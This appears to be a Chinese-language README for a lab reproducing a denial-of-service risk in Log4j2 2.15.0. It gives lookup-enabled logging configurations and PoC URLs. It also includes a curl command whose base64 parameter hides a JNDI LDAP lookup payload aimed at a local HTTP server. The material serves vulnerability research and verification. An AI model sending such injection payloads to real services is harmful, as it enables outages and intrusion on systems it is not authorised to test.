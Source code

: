 # Log4j2 Dos Verification

Fork from https://github.com/EmYiQing/Log4j2DoS

漏洞环境仅用于安全研究，禁止非法用途，造成的后果使用者负责

## 背景

Log4j2.15.0 有DOS风险。

2.15.0以下版本，如果使用ThreadContext来记录日志，如在日志pattern中有 ${ctx:xxx}，并且调用 ThreadContext.put{“xxx”,“用户可控数据”}， 添加JVM参数和环境变量无效

2.15.0默认配置不存在dos风险，但如果使用了lookup功能，或者使用ThreadContext打印日志，也存在DOS安全风险

## 复现 

### 环境信息
- JDK 8 275
- log4j 2.15.0
- Springboot 2.6.1

### 第一种情况
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout>
                <pattern>%d %p %c{1.} [%t] $${ctx:message} %m%n</pattern>
            </PatternLayout>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

注: message需要base64encode




### 第二种情况


漏洞复现URL：`http://localhost:8080/poc1?message=payload`
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

漏洞复现URL：`http://localhost:8080/poc2?message=payload`

注: message需要base64encode

### 测试用例

1. 本地起一个http服务，python -m http.server 7777

2. 本地使用log4j2.xml配置，起动springboot，发送payload到接口触发写入日志，发现服务尝试连接http://127.0.0.1:7777

curl http://127.0.0.1:8080/test\?message\=JHtqbmRpOmxkYXA6Ly8xMjcuMC4wLjE6Nzc3N30=

3. 查看console和http记录，可以发现请求keep alive, 被阻塞了，故存在dos风险

![](./assets/http_response.png)
